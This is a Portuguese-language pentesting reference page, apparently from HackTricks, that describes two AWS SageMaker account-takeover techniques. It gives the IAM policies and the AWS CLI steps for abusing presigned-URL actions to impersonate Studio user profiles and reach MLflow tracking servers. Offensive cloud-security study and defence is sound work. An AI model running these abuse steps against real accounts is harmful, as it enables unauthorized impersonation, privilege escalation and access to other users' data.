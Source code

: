 # AWS - SageMaker Acesso Não Autorizado

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Tomada de Conta via CreatePresignedDomainUrl (Impersonar qualquer UserProfile)

### Description
Uma identidade com permissão para chamar `sagemaker:CreatePresignedDomainUrl` em um `UserProfile` alvo do Studio pode gerar uma URL de login que autentica diretamente no SageMaker Studio como esse perfil. Isso concede ao navegador do atacante uma sessão do Studio que herda as permissões do `ExecutionRole` do perfil e acesso total ao home do perfil suportado por EFS e aos apps. Não é necessário `iam:PassRole` nem acesso ao console.

### Requirements
- Um SageMaker Studio `Domain` e um `UserProfile` alvo dentro dele.
- O principal atacante precisa de `sagemaker:CreatePresignedDomainUrl` no `UserProfile` alvo (nível de recurso) ou `*`.

Minimal policy example (scoped to one UserProfile):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### Etapas de Abuso

1) Enumerar um Studio Domain e UserProfiles que você pode ter como alvo
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) Gerar uma URL pré-assinada (válida por ~5 minutos por padrão)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) Abra a URL retornada em um navegador para entrar no Studio como o usuário alvo. Em um terminal Jupyter dentro do Studio, verifique a identidade efetiva:
```bash
aws sts get-caller-identity
```
Notas:
- `--landing-uri` pode ser omitido. Alguns valores (por exemplo, `app:JupyterLab:/lab`) podem ser rejeitados dependendo da variante/versão do Studio; os padrões normalmente redirecionam para a home do Studio e depois para o Jupyter.
- Políticas da organização/restrições de endpoint VPC ainda podem bloquear o acesso à rede; a emissão do token não requer login no console ou `iam:PassRole`.

### Impacto
- Movimento lateral e escalada de privilégios ao assumir qualquer Studio `UserProfile` cujo ARN seja permitido, herdando seu `ExecutionRole` e sistema de arquivos/apps.

### Evidência (de um teste controlado)
- Com apenas `sagemaker:CreatePresignedDomainUrl` no `UserProfile` alvo, the attacker role retornou com sucesso um `AuthorizedUrl` como:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- Uma requisição HTTP direta responde com um redirecionamento (HTTP 302) para Studio, confirmando que a URL é válida e ativa até expirar.


## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### Descrição
Uma identidade com permissão para chamar `sagemaker:CreatePresignedMlflowTrackingServerUrl` para um SageMaker MLflow Tracking Server alvo pode gerar uma URL presignada de uso único que autentica diretamente na UI gerenciada do MLflow desse servidor. Isso concede o mesmo acesso que um usuário legítimo teria ao servidor (visualizar/criar experimentos e execuções, e baixar/enviar artefatos no repositório S3 do servidor) sem acesso ao console ou `iam:PassRole`.

### Requisitos
- Um SageMaker MLflow Tracking Server na conta/região e o seu nome.
- O principal atacante precisa de `sagemaker:CreatePresignedMlflowTrackingServerUrl` no recurso MLflow Tracking Server alvo (ou `*`).

Exemplo de política mínima (limitada a um Tracking Server):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### Etapas de Abuso

1) Enumere os MLflow Tracking Servers que você pode atingir e escolha um nome
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) Gerar uma URL pré-assinada do MLflow UI (válida por um curto período)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) Abra a URL retornada em um navegador para acessar o MLflow UI como um usuário autenticado desse Tracking Server.

Notes:
- O Tracking Server deve estar em um estado pronto (por exemplo, `Created/Active`). Se ainda estiver `Creating`, a chamada será rejeitada.
- A presigned URL é de uso único e de curta duração; gere uma nova quando necessário.

### Impacto
- Acesso direto ao MLflow UI gerenciado do Tracking Server alvo, permitindo visualizar e modificar experiments/runs e recuperar ou enviar artefatos armazenados no S3 artifact store configurado no servidor, dentro das permissões impostas pela configuração do servidor.

{{#include ../../../../banners/hacktricks-training.md}}
